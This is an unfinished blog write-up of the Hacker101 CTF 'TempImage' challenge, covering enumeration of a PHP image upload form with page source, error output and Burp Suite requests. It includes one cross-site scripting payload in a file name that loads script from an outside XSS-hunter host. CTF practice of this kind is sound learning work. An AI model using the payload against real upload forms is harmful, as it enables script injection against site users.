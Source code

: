 ```yaml
---
title: Hacker101 CTF TempImage[moderate] Write-Up
subtitle: a work in progress
description: A write up for the TempImage [moderate] challenge
published: true
datePublished: 1611357758022
author: lwlx
authorTwitter: "0x0000005"
authorPhoto: /profile.jpg
tags:
  - ctf
  - writeup
  - hackerone
  - TempImage
  - security
thumbnailPhoto: /hackerone/tempimage/tempimage-hackerone.jpg
bannerPhoto: /hackerone/tempimage/tempimage-hackerone.jpg
canonicalUrl:
---
```


# TempImage _[moderate]_ `WIP`

This is my Write Up for the "TempImage" challenge of HackerOne's CTF.

As usual we get a link to webpage, it seems to some sort of cloud storage application, on the main Page we get a really simple page:

```jsx
<!-- https://ctf.hacker101.com/ctf/launch/12 -->

<html>
  <head>
    <title>TempImage &mdash; Trial</title>
  </head>
  <body>
    <h1>TempImage</h1>
    <p>
      <b>UNREGISTERED</b>
    </p>
    <p>
      <a href="upload.php">Upload image</a>
    </p>
  </body>
</html>
```

It signifies that its an UNEGISTERED version of the app, thus working in trial mode.

## Enumeration

So lets start to explore the app and what it can do. We start by clicking the "Upload image" Button.
This leads us to a new page **/upload.php**, here we can select a file from our computer, and have a submit button to send the form.

The form will be sent to a **doUpload.php** file. Upon closer inspection we alos see that there is a hidden field "filename", which gets filled in by aJS snippet.

```jsx
   <h1>Upload</h1>
		<form action="doUpload.php" method="POST" enctype="multipart/form-data">
			<input type="file" name="file" id="file">
			<input type="hidden" name="filename" id="filename">
			<input type="submit" value="Upload">
		</form>
		<script>
			$(document).ready(function() {
				$('#file').change(function(e) {
					$('#filename').val(e.target.files[0].name)
				})
			})
	 </script>
```

So it seems this lil script extracts the `file.name` prop from the fileOpbject the user uploads to the input type="file".

Lets Try it out, It seems the file inpput allows any file to be chosen, lets try a 5mb .gif file.

```jsx
<center><h1>413 Request Entity Too Large</h1></center>
<hr><center>nginx/1.14.0 (Ubuntu)</center>
```

OK, fair, maybe 5mb was a it large, but we know we're working with an nginx 1.14 server on Ubuntu.
So how about we try a smaller gif?

```shell
ERROR: Only PNG format supported in trial.
```

Okay, finally we know what the app expects from us, a PNG file. So we try jsut that.
The upload succeeds, thus redirecting us to a new url:
`/files/be9c26aaea9d9b5085c7f6eed0812745_uhhhh.png`

so it seems our files are uploaded to the `/files/` directory, what a suprise, the file stil contains our original filename, preceeded by some gibberish.

we should deffinetly try to exploit this, check wheter or not they sanitize our filename.

Lets try uploading a file named: `javascript%3Aeval%28%27var%20a%3Ddocument.createElement%28%5C%27script%5C%27%29%3Ba.src%3D%5C%27https%3A%2F%2FDiscover.xss.ht%5C%27%3Bdocument.body.appendChild%28a%29%27%29.png`

We now get redirected to this url `http://35.190.155.168/d29c8e00db/files/9975e7e24fac21e8b877a6d08efe09c6_javascript%3Aeval%28%27var%20a%3Ddocument.createElement%28%5C%27script%5C%27%29%3Ba.src%3D%5C%27https%3A%2F%2FDiscover.xss.ht%5C%27%3Bdocument.body.appendChild%28a%29%27%29.png`

and we get served this content:

```javascript
Not Found
The requested URL /files/9975e7e24fac21e8b877a6d08efe09c6_javascript:eval('var a=document.createElement(\'script\');a.src=\'https:/Discover.xss.ht\';document.body.appendChild(a)').png was not found on this server.

Apache/2.4.7 (Ubuntu) Server at 127.0.0.1 Port 52736
```

so it seems there is potential there, we just need a more sophisticated payload to upload.

## Taking a step back

It's important not to get tunnelvision and only focus on your first finding, so lets take a step back and analyze the website using Burp Suite. Maybe we'll find something.
Lets analyze the upload URL first:

```shell
GET /d29c8e00db/upload.php HTTP/1.1
Host: 35.190.155.168
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
```

This does not tell us that much, it seems the server could accep more than just PNG tho.

How about if we upload an image?

`POST /d29c8e00db/doUpload.php HTTP/1.1`

![image upload Request](/hackerone/tempimage/tempimage-hackerone101-burpSuite_fileupload.png "image upload Request")

> This Post is marked as `WIP` and will be updated continously.
